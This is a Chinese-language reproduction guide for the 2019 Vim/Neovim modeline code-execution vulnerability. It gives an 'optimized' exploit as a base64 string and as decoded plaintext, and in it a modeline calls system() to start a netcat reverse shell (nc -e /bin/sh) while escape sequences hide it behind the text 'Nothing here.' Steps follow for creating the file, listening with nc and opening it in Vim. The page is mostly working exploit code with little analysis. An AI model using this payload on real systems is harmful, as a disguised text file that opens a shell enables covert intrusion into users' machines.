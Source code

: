   

#### b.EXP源码

原作者exp: [shell.txt](https://github.com/numirias/security/blob/master/data/2019-06-04_ace-vim-neovim/shell.txt)

优化过的exp: 

```shell
echo "G1s/N2wbUyBOb3RoaW5nIGhlcmUuGzpzaWxlbnQhIHcgfCBjYWxsIHN5c3RlbSgnbm9odXAgbmMudHJhZGl0aW9uYWwgMTI3LjAuMC4xIDk5OTkgLWUgL2Jpbi9zaCAmJykgfCByZWRyYXchIHwgZmlsZSB8IHNpbGVudCEgIyAiIHZpbTogc2V0IGZlbiBmZG09ZXhwciBmZGU9YXNzZXJ0X2ZhaWxzKCdzZXRcIGZkZT14XCBcfFwgc291cmNlXCFcIFwlJykgZmRsPTA6IBYbWzFHFhtbMktOb3RoaW5nIGhlcmUuIhYbWzJEICAK" | base64 --decode > exp.txt

# base64编码对应的明文
\x1b[?7l\x1bS Nothing here.\x1b:silent! w | call system(\'nohup nc.traditional 127.0.0.1 9999 -e /bin/sh &\') | redraw! | file | silent! # " vim: set fen fdm=expr fde=assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\') fdl=0: \x16\x1b[1G\x16\x1b[2KNothing here."\x16\x1b[2D  \n

# 修改了四处
# 修改原因见附件
# nc -> nc.traditional 
# \x1b[K -> \x1b[2K 
# \x1b[D -> \x1b[2D 
#  \n  ->   \n (增加了一个空格)

```



#### c.复现步骤

- 搭建复现环境，与Poc相同

- 第一步，创建exp文件

  ```shell
  $ echo "G1s/N2wbUyBOb3RoaW5nIGhlcmUuGzpzaWxlbnQhIHcgfCBjYWxsIHN5c3RlbSgnbm9odXAgbmMudHJhZGl0aW9uYWwgMTI3LjAuMC4xIDk5OTkgLWUgL2Jpbi9zaCAmJykgfCByZWRyYXchIHwgZmlsZSB8IHNpbGVudCEgIyAiIHZpbTogc2V0IGZlbiBmZG09ZXhwciBmZGU9YXNzZXJ0X2ZhaWxzKCdzZXRcIGZkZT14XCBcfFwgc291cmNlXCFcIFwlJykgZmRsPTA6IBYbWzFHFhtbMktOb3RoaW5nIGhlcmUuIhYbWzJEICAK" | base64 --decode > exp.txt
  
  ```

- 第二步，监听nc回连端口

  ```shell
  $ nc -vlp 9999
  Listening on [0.0.0.0] (family 0, port 9999)
  
  ```

- 第三步，Vim打开exp文件

  ```shell
  $ vim exp.txt
   Nothing here.
  ~                                                                      
  ...                                                                     
  ~                                                                               
  "exp.txt" line 1 of 1 --100%-- col 14
  
  ```
